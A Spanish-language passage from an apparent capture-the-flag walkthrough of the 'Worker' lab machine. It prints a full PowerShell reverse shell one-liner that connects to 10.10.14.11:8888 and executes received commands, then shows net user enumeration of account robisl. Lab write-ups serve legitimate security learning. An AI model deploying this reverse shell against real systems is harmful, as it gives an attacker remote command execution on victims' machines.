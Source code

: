 Voy a crear una reverse shell de powershell

```powershell
/c $client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![Untitled](../assets/images/Worker/Untitled%2022.png)

![Untitled](../assets/images/Worker/Untitled%2023.png)

Vemos los usuarios Administrator y robisl, pero no podemos entrar en ninguno

![Untitled](../assets/images/Worker/Untitled%2024.png)

Con net user podemos listar información de un usuario, y robisl tiene *Remote Management Use

Esto nos da indicio de que podemos usar Evil-WinRM. Pero no tenemos credenciales

```text
PS C:\users> net user robisl
User name                    robisl
Full Name                    Robin Islip
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2020-04-05 21:27:26
Password expires             Never
Password changeable          2020-04-05 21:27:26
Password required            No
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2020-08-03 12:41:02

Logon hours allowed          All
```